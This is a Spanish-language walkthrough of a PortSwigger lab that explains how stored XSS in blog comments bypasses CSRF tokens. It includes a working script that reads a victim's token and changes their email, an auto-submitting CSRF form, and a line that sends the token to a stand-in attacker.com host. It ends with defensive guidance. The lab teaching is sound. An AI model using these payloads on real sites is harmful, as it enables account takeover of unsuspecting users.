





# Lab 39 — Cross-site scripting: Explotar XSS para saltarse defensas CSRF

**URL del laboratorio:** `https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf`

**Nombre del laboratorio:** Exploiting XSS to bypass CSRF defenses  
**Categoría:** Cross-site scripting / Stored XSS / CSRF bypass  
**Objetivo:** usar una vulnerabilidad de **XSS almacenado** para leer el token CSRF de una víctima autenticada y enviar una petición válida que cambie su email.

---

## 1. Enunciado del laboratorio

El laboratorio contiene una vulnerabilidad de **cross-site scripting almacenado** en la funcionalidad de comentarios del blog.

Para resolverlo, hay que explotar esa vulnerabilidad para:

1. Hacer que una víctima cargue un comentario malicioso.
2. Ejecutar JavaScript en el navegador de esa víctima.
3. Usar ese JavaScript para acceder a `/my-account` como la víctima.
4. Extraer el token CSRF de la página de cuenta de la víctima.
5. Enviar un `POST` a `/my-account/change-email` con ese token.
6. Cambiar el correo electrónico de la víctima.

El laboratorio nos da además unas credenciales válidas para nuestra propia cuenta:

```text
wiener:peter
```

Estas credenciales no son las de la víctima final, sino una cuenta normal que usamos para estudiar cómo funciona la funcionalidad de cambio de email y confirmar qué parámetros necesita la petición.

---

## 2. Idea principal del laboratorio

Este laboratorio enseña una idea muy importante:

> **CSRF protege contra ataques lanzados desde otros orígenes, pero no protege contra JavaScript que ya se está ejecutando dentro del mismo origen de la aplicación vulnerable.**

Dicho de forma más directa:

```text
CSRF token bloquea ataques externos a ciegas.
XSS permite leer el token y usarlo.
```

Por eso se suele decir:

```text
XSS rompe CSRF.
```

No porque CSRF sea una defensa inútil, sino porque CSRF asume que el atacante **no puede leer contenido sensible del sitio**. Si hay XSS, esa suposición deja de ser cierta.

---

## 3. Qué es CSRF

CSRF significa **Cross-Site Request Forgery**.

Es un ataque en el que una web maliciosa consigue que el navegador de una víctima envíe una petición autenticada a otra web donde la víctima ya está logueada.

La clave está en que el navegador envía cookies automáticamente.

### Ejemplo mental sencillo

Supongamos que estás logueado en:

```text
https://banco.com
```

Tu navegador tiene una cookie de sesión válida:

```http
Cookie: session=abc123
```

Ahora visitas una web controlada por un atacante:

```text
https://evil.com
```

Esa web maliciosa podría intentar cargar algo como:

```html

```

Tu navegador, al cargar esa imagen, enviaría una petición a `banco.com`. Y como estás logueado en `banco.com`, también enviaría tus cookies.

La petición sería conceptualmente algo así:

```http
GET /transferir?cantidad=1000&destino=attacker HTTP/1.1
Host: banco.com
Cookie: session=abc123
```

El servidor podría pensar:

```text
Esta petición viene de un usuario autenticado, así que la acepto.
```

Ese es el problema base de CSRF.

---

## 4. Qué es un token CSRF

Para evitar ese tipo de ataques, las aplicaciones suelen añadir un token secreto en formularios sensibles.

Por ejemplo, en un formulario de cambio de email:

```html
<form action="/my-account/change-email" method="POST">
    <input type="email" name="email">
    <input type="hidden" name="csrf" value="TOKEN_ALEATORIO">
    <button>Update email</button>
</form>
```

El servidor exige que la petición incluya ese token:

```http
POST /my-account/change-email HTTP/1.1
Cookie: session=...
Content-Type: application/x-www-form-urlencoded

email=nuevo@test.net&csrf=TOKEN_ALEATORIO
```

La defensa funciona porque un atacante externo puede forzar una petición, pero normalmente **no puede leer la página `/my-account` de la víctima** para obtener el token.

Es decir:

```text
Atacante externo:
- Puede intentar enviar POST.
- No puede leer el token CSRF.
- No puede construir una petición válida.
```

---

## 5. Por qué XSS permite saltarse CSRF

Con XSS cambia completamente el escenario.

Si conseguimos ejecutar JavaScript dentro del dominio vulnerable, nuestro script corre como si fuera parte legítima de la aplicación.

Eso significa que el script puede hacer esto:

```javascript
fetch('/my-account')
```

o esto:

```javascript
var req = new XMLHttpRequest();
req.open('GET', '/my-account', true);
req.send();
```

Y como se ejecuta en el navegador de la víctima, la petición incluirá automáticamente sus cookies de sesión.

La diferencia con CSRF clásico es muy importante:

| Ataque | Puede enviar peticiones | Puede leer respuestas | Puede leer token CSRF | Puede usar token CSRF |
|---|---:|---:|---:|---:|
| CSRF puro | Sí | No | No | No |
| XSS | Sí | Sí, si es mismo origen | Sí | Sí |

Por eso este laboratorio se llama **Exploiting XSS to bypass CSRF defenses**.

La defensa CSRF está funcionando contra un atacante externo, pero el XSS coloca al atacante dentro del mismo origen.

---

## 6. Qué significa “same-origin” en este laboratorio

La Same Origin Policy del navegador protege que un script de un origen no pueda leer respuestas de otro origen.

Un origen se compone de:

```text
protocolo + dominio + puerto
```

Ejemplo:

```text
https://0a7d000b03863ac7bc9eb18e00c2006a.web-security-academy.net
```

El XSS se ejecuta dentro de ese mismo dominio. Por tanto, puede pedir:

```text
/my-account
/my-account/change-email
/post?postId=...
```

Y puede leer la respuesta, porque todo pertenece al mismo origen.

Esa es la razón técnica por la que el script puede leer el HTML de `/my-account` y extraer el token CSRF.

---

## 7. Por qué es Stored XSS

La vulnerabilidad está en los comentarios del blog.

El flujo es:

```text
1. El atacante publica un comentario con JavaScript.
2. El servidor guarda ese comentario en la base de datos.
3. La víctima visita el post.
4. El servidor recupera los comentarios guardados.
5. El comentario malicioso se inserta en el HTML.
6. El navegador de la víctima ejecuta el script.
```

Esto es **stored XSS** porque el payload no vive solo en una URL temporal. Queda almacenado en el servidor.

Comparación rápida:

| Tipo de XSS | Dónde vive el payload | Cómo se ejecuta |
|---|---|---|
| Reflected XSS | En la petición/URL | La víctima debe abrir una URL concreta |
| Stored XSS | En base de datos o almacenamiento del servidor | Se ejecuta cada vez que alguien carga el contenido |
| DOM XSS | En el navegador | JavaScript del cliente procesa datos peligrosos |

En este laboratorio, el comentario malicioso queda persistente, de modo que el usuario víctima simulado lo visualizará después de que sea publicado.

---

## 8. Vista inicial del laboratorio

Al iniciar el laboratorio se abre una página tipo blog de Web Security Academy.



En la parte superior aparece el título:

```text
Exploiting XSS to bypass CSRF defenses
```

También vemos enlaces como:

```text
Home | My account
```

La presencia de `My account` ya nos da una pista: habrá una funcionalidad autenticada relacionada con la cuenta del usuario. El enunciado nos dice que tenemos que cambiar el email de alguien, por lo que el endpoint importante seguramente estará relacionado con esa sección.

---

## 9. Inicio de sesión con la cuenta proporcionada

El laboratorio nos da estas credenciales:

```text
wiener:peter
```

Entramos en `My account` y aparece el formulario de login.



Introducimos:

```text
Username: wiener
Password: peter
```

El objetivo de iniciar sesión con nuestra cuenta no es atacar directamente a `wiener`, sino estudiar cómo funciona el cambio de email en una cuenta válida.

Este paso es importante porque antes de automatizar una acción con XSS, necesitamos saber exactamente:

- qué endpoint recibe la petición;
- qué método HTTP usa;
- qué parámetros necesita;
- dónde aparece el token CSRF;
- si el token viaja en el cuerpo, en cabecera o en otro sitio;
- si hay algún formato especial.

---

## 10. Panel de cuenta antes del cambio de email

Tras iniciar sesión, accedemos a la página de cuenta.



Vemos:

```text
Your username is: wiener
Your email is: wiener@normal-user.net
```

También vemos un formulario para actualizar el email.

A simple vista el formulario solo muestra un campo `Email` y un botón `Update email`, pero internamente también incluye un token CSRF oculto.

Ese token no se muestra al usuario, pero está en el HTML de la página.

Conceptualmente, el formulario se parece a esto:

```html
<form action="/my-account/change-email" method="POST">
    <input type="email" name="email">
    <input type="hidden" name="csrf" value="vQN0RHwpDgkWjlia46DEnN4sBnc3RNjR">
    <button>Update email</button>
</form>
```

---

## 11. Analizando la petición real de cambio de email

Cambiamos el email de nuestra propia cuenta para ver qué petición genera la aplicación.

Por ejemplo, cambiamos de:

```text
wiener@normal-user.net
```

a:

```text
wiener@test.net
```

La petición capturada en Burp Suite es:

```http
POST /my-account/change-email HTTP/2
Host: 0a7d000b03863ac7bc9eb18e00c2006a.web-security-academy.net
Cookie: session=qwCbfJGe7wAp5MWy57nnoY9j0eFfQQFt
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: https://0a7d000b03863ac7bc9eb18e00c2006a.web-security-academy.net
Referer: https://0a7d000b03863ac7bc9eb18e00c2006a.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=wiener%40test.net&csrf=vQN0RHwpDgkWjlia46DEnN4sBnc3RNjR
```

Esta petición nos da toda la información que necesitamos.

Puntos importantes:

```text
Método: POST
Ruta: /my-account/change-email
Content-Type: application/x-www-form-urlencoded
Parámetros necesarios:
  - email
  - csrf
```

El email va URL-encoded:

```text
wiener%40test.net
```

`%40` es la codificación URL del carácter `@`.

El token CSRF aparece como:

```text
csrf=vQN0RHwpDgkWjlia46DEnN4sBnc3RNjR
```

Ese token es válido para nuestra sesión, no para la sesión de la víctima. Por eso no nos sirve copiarlo directamente. Necesitamos que el navegador de la víctima lea **su propio token**.

---

## 12. Confirmación del cambio de email

Tras enviar el formulario, vemos que el email de nuestra cuenta se ha actualizado.



Ahora aparece:

```text
Your email is: wiener@test.net
```

Esto confirma que:

- `/my-account/change-email` es el endpoint correcto;
- el parámetro `email` controla el nuevo email;
- el parámetro `csrf` es obligatorio;
- si el token es válido, el servidor acepta el cambio.

Ahora ya podemos construir el XSS que automatizará esto contra la víctima.

---

## 13. Objetivo técnico del payload

Queremos que la víctima haga, sin saberlo, lo siguiente:

```text
1. Abrir el post con nuestro comentario malicioso.
2. Ejecutar JavaScript almacenado en el comentario.
3. Hacer GET /my-account usando su sesión.
4. Extraer su token CSRF del HTML.
5. Hacer POST /my-account/change-email con:
   - su token CSRF
   - el email elegido por nosotros
```

Todo esto debe ejecutarse en el navegador de la víctima.

El atacante no necesita conocer la cookie de la víctima. Tampoco necesita conocer previamente su token CSRF.

El propio navegador de la víctima hará el trabajo porque el XSS se ejecuta dentro de su sesión.

---

## 14. Payload usado

El payload final que publicamos como comentario es:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=hacked@mail.com')
};
</script>
```

El email elegido en este caso es:

```text
hacked@mail.com
```

Ese valor podría ser cualquier correo válido que queramos establecer en la cuenta de la víctima.

---

## 15. Desglose completo del payload

Vamos línea por línea.

### 15.1 Apertura del bloque JavaScript

```html
<script>
```

Empieza un bloque JavaScript.

En este laboratorio, la funcionalidad de comentarios no neutraliza correctamente etiquetas como `<script>`, por lo que el navegador las interpreta como código ejecutable.

---

### 15.2 Creación de la primera petición

```javascript
var req = new XMLHttpRequest();
```

Creamos un objeto `XMLHttpRequest`.

`XMLHttpRequest` permite hacer peticiones HTTP desde JavaScript.

En este caso, la petición se hará desde el navegador de la víctima.

Eso significa que si la víctima está autenticada, la petición incluirá sus cookies de sesión automáticamente.

---

### 15.3 Definir qué ocurre al recibir respuesta

```javascript
req.onload = handleResponse;
```

Aquí indicamos que cuando la petición termine y llegue la respuesta, se debe ejecutar la función `handleResponse`.

No llamamos a la función todavía. Solo la registramos como callback.

El flujo será:

```text
req.send()
   ↓
El servidor responde con HTML de /my-account
   ↓
Se dispara req.onload
   ↓
Se ejecuta handleResponse()
```

---

### 15.4 Preparar el GET a /my-account

```javascript
req.open('get','/my-account',true);
```

Esto prepara una petición:

```http
GET /my-account
```

El tercer argumento, `true`, significa que la petición será asíncrona.

Es decir, el navegador no se queda bloqueado esperando la respuesta.

La ruta `/my-account` es relativa. Eso es importante.

Como el script se ejecuta en:

```text
https://LAB.web-security-academy.net
```

la ruta relativa se resuelve como:

```text
https://LAB.web-security-academy.net/my-account
```

Esto evita problemas de CORS porque la petición es al mismo origen.

---

### 15.5 Enviar la primera petición

```javascript
req.send();
```

Envía la petición.

Como se ejecuta en el navegador de la víctima, el navegador añadirá automáticamente la cookie de sesión de la víctima.

Conceptualmente:

```http
GET /my-account HTTP/1.1
Host: LAB.web-security-academy.net
Cookie: session=COOKIE_DE_LA_VICTIMA
```

El servidor responde con la página de cuenta de la víctima, incluyendo su token CSRF.

---

### 15.6 Definición de la función handleResponse

```javascript
function handleResponse() {
```

Esta función se ejecuta cuando llega la respuesta de `/my-account`.

Dentro de esta función, `this.responseText` contiene el HTML completo de la página `/my-account`.

Por ejemplo, puede contener algo así:

```html
<input type="hidden" name="csrf" value="TOKEN_DE_LA_VICTIMA">
```

---

### 15.7 Extraer el token CSRF con una expresión regular

```javascript
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
```

Esta es la línea más importante del payload.

Desglose:

```javascript
this.responseText
```

Contiene el HTML de `/my-account`.

```javascript
.match(/name="csrf" value="(\w+)"/)
```

Busca dentro de ese HTML una parte que tenga esta forma:

```html
name="csrf" value="TOKEN"
```

La expresión regular es:

```regex
/name="csrf" value="(\w+)"/
```

La parte:

```regex
\w
```

significa:

```text
cualquier carácter alfanumérico o guion bajo: a-z, A-Z, 0-9, _
```

La parte:

```regex
+
```

significa:

```text
uno o más caracteres
```

Por tanto:

```regex
(\w+)
```

significa:

```text
captura una secuencia de uno o más caracteres alfanuméricos
```

Los paréntesis `()` crean un grupo de captura.

Ejemplo:

```html
<input type="hidden" name="csrf" value="abc123XYZ">
```

La regex captura:

```text
abc123XYZ
```

`.match()` devuelve un array.

Ejemplo:

```javascript
'name="csrf" value="abc123XYZ"'.match(/name="csrf" value="(\w+)"/)
```

Resultado conceptual:

```javascript
[
  'name="csrf" value="abc123XYZ"',
  'abc123XYZ'
]
```

El elemento `[0]` es el match completo.

El elemento `[1]` es el grupo capturado.

Por eso el payload usa:

```javascript
[1]
```

para quedarse solo con el token.

Resultado final:

```javascript
var token = 'TOKEN_DE_LA_VICTIMA';
```

---

## 16. Por qué se usa `(\w+)` y no otra cosa

El laboratorio sabe que el token CSRF está compuesto por caracteres alfanuméricos.

Por eso `\w+` funciona.

Si el token pudiera contener otros caracteres, como guiones `-`, puntos `.`, barras `/` o símbolos, habría que usar una regex más amplia.

Por ejemplo:

```javascript
/name="csrf" value="([^"]+)"/
```

Esta alternativa capturaría cualquier cosa hasta la siguiente comilla doble.

Sería más flexible:

```javascript
var token = this.responseText.match(/name="csrf" value="([^"]+)"/)[1];
```

Pero para este laboratorio, la solución con `\w+` es suficiente.

---

## 17. Crear la segunda petición

```javascript
var changeReq = new XMLHttpRequest();
```

Creamos una segunda petición HTTP.

La primera petición era para leer `/my-account` y obtener el token.

La segunda petición será para cambiar el email.

---

## 18. Preparar el POST de cambio de email

```javascript
changeReq.open('post', '/my-account/change-email', true);
```

Esto prepara una petición:

```http
POST /my-account/change-email
```

De nuevo, la ruta es relativa y pertenece al mismo origen.

La petición será asíncrona.

---

## 19. Enviar token y nuevo email

```javascript
changeReq.send('csrf='+token+'&email=hacked@mail.com')
```

Esto envía el cuerpo de la petición con dos parámetros:

```text
csrf=TOKEN_DE_LA_VICTIMA
email=hacked@mail.com
```

Conceptualmente, el navegador de la víctima envía:

```http
POST /my-account/change-email HTTP/1.1
Host: LAB.web-security-academy.net
Cookie: session=COOKIE_DE_LA_VICTIMA
Content-Type: application/x-www-form-urlencoded

csrf=TOKEN_DE_LA_VICTIMA&email=hacked@mail.com
```

El servidor ve:

```text
- Cookie de sesión válida de la víctima.
- Token CSRF válido de la víctima.
- Parámetro email válido.
```

Por tanto, acepta el cambio.

---

## 20. Detalle importante: orden de parámetros

En nuestra petición manual capturada antes, el cuerpo aparecía así:

```text
email=wiener%40test.net&csrf=vQN0RHwpDgkWjlia46DEnN4sBnc3RNjR
```

En el payload lo enviamos así:

```text
csrf=TOKEN&email=hacked@mail.com
```

El orden normalmente no importa en `application/x-www-form-urlencoded`, siempre que el backend lea los parámetros por nombre.

El servidor no suele exigir que `email` vaya antes que `csrf`. Solo necesita recibir ambos.

---

## 21. Detalle importante: Content-Type

En el payload usamos:

```javascript
changeReq.send('csrf='+token+'&email=hacked@mail.com')
```

No establecemos explícitamente:

```http
Content-Type: application/x-www-form-urlencoded
```

En muchos navegadores y escenarios, si se envía un string con `XMLHttpRequest.send()`, el servidor igualmente interpreta el cuerpo como parámetros de formulario o la aplicación de PortSwigger lo acepta en este laboratorio.

Una versión más explícita sería:

```javascript
changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
```

quedando:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&email=hacked@mail.com')
};
</script>
```

La solución del laboratorio funciona sin esa cabecera explícita, pero entenderlo te ayuda a depurar casos reales.

---

## 22. Por qué no necesitamos Burp Collaborator en este laboratorio

En laboratorios anteriores de explotación XSS, como robo de cookies o captura de contraseñas, se usa Burp Collaborator para exfiltrar datos a un servidor controlado por el atacante.

Aquí no necesitamos exfiltrar el token CSRF hacia fuera.

No necesitamos ver el token.

Solo necesitamos usarlo inmediatamente desde el navegador de la víctima.

Flujo del lab 37/38:

```text
Víctima → envía datos a Collaborator → atacante lee datos → atacante usa datos
```

Flujo de este lab:

```text
Víctima → lee su token → víctima envía cambio de email con su token
```

El token se roba de forma local en el navegador y se consume al instante.

No hace falta que llegue a nosotros.

---

## 23. Por qué el ataque no es CSRF puro

Un CSRF puro intentaría algo como:

```html
<form action="https://LAB.web-security-academy.net/my-account/change-email" method="POST">
    <input name="email" value="hacked@mail.com">
</form>
<script>document.forms[0].submit()</script>
```

Pero eso fallaría porque falta el token CSRF válido.

El atacante externo no puede leer `/my-account` para obtenerlo.

En cambio, con XSS:

```text
1. Leemos /my-account.
2. Extraemos token.
3. Enviamos POST válido.
```

Por eso el ataque es XSS usado para saltarse CSRF, no simplemente CSRF.

---

## 24. Por qué el navegador envía cookies en estas peticiones

El script hace peticiones relativas:

```javascript
req.open('get','/my-account',true);
changeReq.open('post', '/my-account/change-email', true);
```

Al ser peticiones al mismo sitio, el navegador incluye automáticamente la cookie de sesión.

No hace falta escribir:

```javascript
headers: { Cookie: ... }
```

De hecho, JavaScript en navegador no puede establecer manualmente la cabecera `Cookie` por seguridad.

El navegador gestiona las cookies automáticamente.

Esto es clave:

```text
El atacante no necesita conocer la cookie.
El navegador de la víctima ya la tiene y la envía.
```

---

## 25. Publicación del comentario malicioso

Volvemos al blog y entramos en un post.

En el apartado `Leave a comment`, introducimos el payload en el campo de comentario:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=hacked@mail.com')
};
</script>
```

En los demás campos usamos datos normales:

```text
Name: hacked
Email: hacked@hacked.net
Website: http://hacked.net
```

Al enviar el comentario, el servidor lo guarda.

Cuando la víctima simulada visualiza el comentario, su navegador ejecuta el script y cambia su email.

---

## 26. Resultado del laboratorio

Después de enviar el comentario malicioso, el laboratorio aparece como resuelto.



Esto confirma que el usuario víctima simulado ha cargado el comentario, el XSS se ha ejecutado, el token CSRF se ha extraído y el correo electrónico de la víctima ha sido cambiado correctamente.

---

## 27. Flujo completo del ataque

Resumen técnico del ataque de principio a fin:

```text
1. El atacante inicia sesión como wiener:peter para estudiar la funcionalidad.
2. El atacante cambia su propio email y captura la petición.
3. Observa que el cambio de email requiere:
   - POST /my-account/change-email
   - email=...
   - csrf=...
4. El atacante publica un comentario con Stored XSS.
5. El comentario queda guardado en la aplicación.
6. La víctima visita el post.
7. El navegador de la víctima ejecuta el script.
8. El script hace GET /my-account.
9. La respuesta contiene el token CSRF de la víctima.
10. El script extrae el token con regex.
11. El script hace POST /my-account/change-email.
12. La petición lleva la cookie de sesión de la víctima y su token CSRF.
13. El servidor acepta el cambio.
14. El laboratorio se marca como resuelto.
```

---

## 28. Diferencia entre “robar el token” y “usar el token”

En este laboratorio decimos “robar token CSRF”, pero técnicamente el token no se exfiltra hacia el atacante.

El script lo lee y lo usa localmente.

Hay dos posibilidades:

### Opción A — robar y exfiltrar token

```javascript
fetch('https://attacker.com', { method: 'POST', body: token })
```

Esto enviaría el token al atacante.

### Opción B — leer y usar token inmediatamente

```javascript
changeReq.send('csrf='+token+'&email=hacked@mail.com')
```

Esto no envía el token fuera, pero lo usa para completar la acción.

En este laboratorio se usa la opción B.

Es más directa y suficiente para resolverlo.

---

## 29. Por qué CSRF no puede defenderse de XSS

CSRF y XSS son problemas distintos.

CSRF tokens están diseñados para evitar que una web externa pueda enviar una petición válida sin conocer un secreto.

Pero si el atacante tiene XSS, ya no está fuera.

Está dentro del origen vulnerable.

Con XSS, el atacante puede:

- leer HTML interno;
- leer tokens CSRF;
- enviar peticiones autenticadas;
- modificar formularios;
- registrar pulsaciones;
- leer datos del DOM;
- hacer acciones como la víctima.

Por eso, cuando existe XSS, muchas defensas de aplicación quedan debilitadas.

La prioridad debe ser corregir el XSS.

---

## 30. Por qué SameSite no salva este caso

`SameSite` ayuda a limitar cuándo el navegador envía cookies en peticiones cross-site.

Pero aquí las peticiones no son cross-site.

El XSS se ejecuta dentro de:

```text
https://LAB.web-security-academy.net
```

Y envía peticiones a:

```text
https://LAB.web-security-academy.net/my-account
https://LAB.web-security-academy.net/my-account/change-email
```

Es el mismo origen.

Por tanto, `SameSite` no bloquea este ataque.

---

## 31. Por qué HttpOnly tampoco salva este caso

`HttpOnly` protege cookies contra lectura con JavaScript.

Si una cookie tiene `HttpOnly`, entonces:

```javascript
document.cookie
```

no devuelve esa cookie.

Pero en este laboratorio no necesitamos leer la cookie.

El navegador ya la envía automáticamente en peticiones same-origin.

El XSS no hace:

```javascript
document.cookie
```

Hace:

```javascript
req.open('get','/my-account',true);
req.send();
```

La cookie viaja automáticamente en la petición.

Por tanto:

```text
HttpOnly evita robo directo de cookie.
HttpOnly no evita acciones autenticadas vía XSS.
```

---

## 32. Por qué CSP podría ayudar

Una Content Security Policy bien configurada podría dificultar o bloquear la ejecución del payload.

Por ejemplo, una CSP estricta que bloquee scripts inline:

```http
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'none'
```

Si no permite `'unsafe-inline'`, entonces un comentario con:

```html
<script>...</script>
```

no debería ejecutarse.

Pero CSP no debe ser la única defensa.

La defensa principal es no permitir que el comentario se convierta en código ejecutable.

---

## 33. Cómo defender correctamente este caso

La solución real no es “mejorar CSRF”.

La solución principal es eliminar el XSS.

### 33.1 Codificar salida según contexto

Si un comentario se va a mostrar como texto HTML, debe insertarse como texto, no como HTML.

Ejemplo seguro en frontend:

```javascript
element.textContent = userComment;
```

No:

```javascript
element.innerHTML = userComment;
```

En backend, caracteres como estos deben codificarse en contexto HTML:

```text
<  → &lt;
>  → &gt;
&  → &amp;
"  → &quot;
'  → &#x27;
```

### 33.2 Sanitizar HTML si se permite formato

Si la aplicación permite comentarios con HTML limitado, debe usar una librería robusta de sanitización, no filtros caseros.

Ejemplos de controles:

- permitir solo etiquetas seguras;
- eliminar atributos `on*`;
- bloquear `<script>`;
- bloquear URLs `javascript:`;
- normalizar entidades antes de validar.

### 33.3 Evitar JavaScript inline

No usar patrones como:

```html
<button onclick="doSomething('USER_INPUT')">
```

Mejor separar datos y comportamiento:

```html
<button id="btn" data-value="valor codificado correctamente">Enviar</button>
```

```javascript
document.getElementById('btn').addEventListener('click', function () {
    doSomething(this.dataset.value);
});
```

### 33.4 Mantener CSRF tokens

Aunque XSS pueda saltárselos, los tokens CSRF siguen siendo necesarios contra ataques CSRF reales.

No hay que eliminarlos.

Hay que corregir XSS y mantener CSRF.

### 33.5 CSP como defensa adicional

Una CSP estricta puede reducir el impacto:

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'none'
```

